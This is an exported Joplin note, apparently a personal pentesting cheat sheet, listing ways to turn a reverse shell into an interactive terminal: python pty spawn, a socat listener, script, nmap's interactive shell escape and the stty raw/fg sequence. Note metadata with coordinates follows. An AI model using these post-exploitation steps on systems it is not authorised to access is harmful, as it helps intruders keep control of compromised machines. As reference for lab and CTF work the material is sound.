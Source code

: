 Get Interactive Shell

# Python

> python -c 'import pty; pty.spawn("/bin/bash")'

Socat (Not recommended)

> socat file:`tty`,raw,echo=0 tcp-listen:12345

# Script

> script /dev/null -c bash

Other Alternatives: https://netsec.ws/?p=337

# Nmap

> nmap --interactive
> 
> !sh

Upgrade netcat with magic (stty)

> #In Reverse Shell
> 
> \# Press Ctrl + Z
> 
> \# In Kali
> 
> stty raw -echo
> 
> echo $TERM # Take note of value
> 
> stty -a # Take note of rows and cols
> 
> fg
> 
> \# In Reverse shell
> 
> reset
> 
> export SHELL=bash
> 
> export TERM=xterm-256color
> 
> stty rows &lt;num&gt; columns &lt;cols&gt;

id: b0d2d9a9903d40ac9bec2801ac15e991
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-01-14T07:17:20.706Z
updated_time: 2022-07-19T04:28:18.077Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1642144640706
user_created_time: 2022-01-14T07:17:20.706Z
user_updated_time: 2022-07-19T04:28:18.077Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1